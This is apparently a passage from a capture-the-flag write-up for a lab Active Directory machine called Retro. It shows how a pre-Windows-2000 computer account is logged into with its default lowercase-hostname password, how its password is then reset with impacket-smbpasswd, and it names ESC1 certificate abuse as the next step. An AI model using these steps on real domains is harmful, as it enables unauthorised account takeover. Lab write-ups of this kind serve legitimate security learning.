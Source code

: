 Our focus should be to get to this **Banking$** account on the domain which is a part of Domain computers which can further do **ESC1** on the domain to get to the domain controller.

## Exploitation

We have a machine account in our usernames list **BANKING$.**

```text
Administrator
Guest
krbtgt
trainee
BANKING$
jburley
HelpDesk
tblack
thomas
Thomas
James
james
```

The banking account is an older one probably a **Pre-Windows-2000** one which uses their own hostname as the password but in lowercase, this hint I found in this article by TrustedSec.

[https://trustedsec.com/blog/diving-into-pre-created-computer-accounts](https://trustedsec.com/blog/diving-into-pre-created-computer-accounts)

```bash
nxc smb retro.vl -u 'BANKING$' -p 'banking' --verbose
```

![image.png](/assets/images/Retro_VL/image%2015.png)

It doesn’t listed shares and errors out like **STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT (The account used is a computer account. Use your global user account or local user account to access the server).**

Reading through the above article implies that we need to change this machine account password to be able to authenticate with using SMB.

Using impacket’s smbpasswd.py to change its password.

```bash
impacket-smbpasswd retro.vl/'BANKING$':banking@retro.vl -newpass 'aashwin10!'
```
